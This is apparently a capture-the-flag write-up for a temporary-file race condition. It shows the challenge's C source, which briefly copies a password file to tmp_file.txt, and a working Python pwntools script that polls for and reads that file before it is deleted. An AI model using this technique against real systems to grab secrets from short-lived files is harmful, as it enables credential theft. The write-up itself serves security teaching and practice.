 # Race Condition Exploit to Capture Password

## Challenge Overview
**Challenge Name**: Temporary File Race Condition  
**Category**: Binary Exploitation / Race Condition  
**Difficulty**: Easy-Medium  
**Description**: A program that briefly creates a temporary file containing the password and deletes it after 250ms. The goal is to capture the password during this narrow window.

## Understanding the Vulnerability

### Source Code Analysis

```c
// gcc -o chall source.c -no-pie -fno-stack-protector -z execstack -z norelro -Wl,-z,noseparate-code -static

#include <stdio.h>
#include <string.h>
#include <sys/ptrace.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>

#define PASSWORD ".passwd"
#define TMP_FILE "tmp_file.txt"

int main(void)
{
  int fd_tmp, fd_rd;
  char ch;


  if (ptrace(PTRACE_TRACEME, 0, 1, 0) < 0) 
    {
      printf("[-] Don't use a debugguer !\n");
      abort();
    }
  if((fd_tmp = open(TMP_FILE, O_WRONLY | O_CREAT, 0444)) == -1)
    {
      perror("[-] Can't create tmp file ");
      goto end;
    }
   
  if((fd_rd = open(PASSWORD, O_RDONLY)) == -1)
    {
      perror("[-] Can't open file ");+
      goto end;
    }
   
  while(read(fd_rd, &ch, 1) == 1)
    {
      write(fd_tmp, &ch, 1);
    }
  close(fd_rd);
  close(fd_tmp);
  usleep(250000);
end:
  unlink(TMP_FILE);
   
  return 0;
}
```



The vulnerable program (`chall`):
1. **Anti-debugging Protection**: Uses `ptrace(PTRACE_TRACEME)` to detect debuggers

![antidebug](./img/antidebug.png)


2. **File Operations**:
   - Creates a temporary file `tmp_file.txt`
   - Copies content from `.passwd` character by character
   - Waits 250ms (`usleep(250000)`)
   - Deletes the file (`unlink(TMP_FILE)`)
3. **The Race Condition**: The file exists for only 250ms, creating a narrow window for exploitation

### Key Vulnerability
The program:
- Creates sensitive data in a temporary file
- Provides a predictable time window (250ms) before deletion
- Uses sequential character-by-character writing, making the file readable before completion

## Exploit Development

### Exploit Strategy
The solution uses a Python script with `pwntools` to:
1. **Monitor File Creation**: Continuously check for `tmp_file.txt`
2. **Timing Precision**: Wait 50ms after detection to ensure complete file writing
3. **Rapid Reading**: Multiple read attempts to capture content before deletion

## The Exploit Code

```python
#!/usr/bin/env python3
from pwn import *
import time
import os

def main():
    # Clean up any existing file
    if os.path.exists("tmp_file.txt"):
        os.remove("tmp_file.txt")
    
    # Start the process
    p = process('./chall')
    
    # Ultra-aggressive polling loop
    start_time = time.time()
    password = None
    
    while time.time() - start_time < 0.5: # Purpose: Creates a loop that runs for 500ms (longer than the 250ms window) to continuously check for the file.
        try:
            # Direct file check with immediate read attempt
            if os.path.isfile("tmp_file.txt"):
                # Multiple rapid read attempts
                time.sleep(0.05)  # 50ms delay to ensure complete write
                for _ in range(30):
                    try:
                        with open("tmp_file.txt", "rb") as f:   # "rb" (binary mode) is faster than text mode
                            content = f.read().decode('utf-8', errors='ignore').strip()
                            if content:
                                password = content
                                break
                    except:
                        pass
                if password:
                    break
        except:
            pass
    
    if password:
        log.success(f"Password: {password}")
    else:
        log.warning("Failed to capture password")
    
    p.close()

if __name__ == "__main__":
    main()
```

![result](./img/result.png)


### Why This Exploit Works

1. **File Detection**: Continuous polling detects the file immediately upon creation
2. **Writing Completion**: The 50ms delay allows the character-by-character write operation to complete
3. **Multiple Read Attempts**: 30 rapid attempts handle cases where the file might be deleted during read operations
4. **Binary Mode Reading**: Using `"rb"` mode is faster and more reliable than text mode
5. **Adequate Timeout**: 500ms monitoring covers the entire vulnerable window with buffer
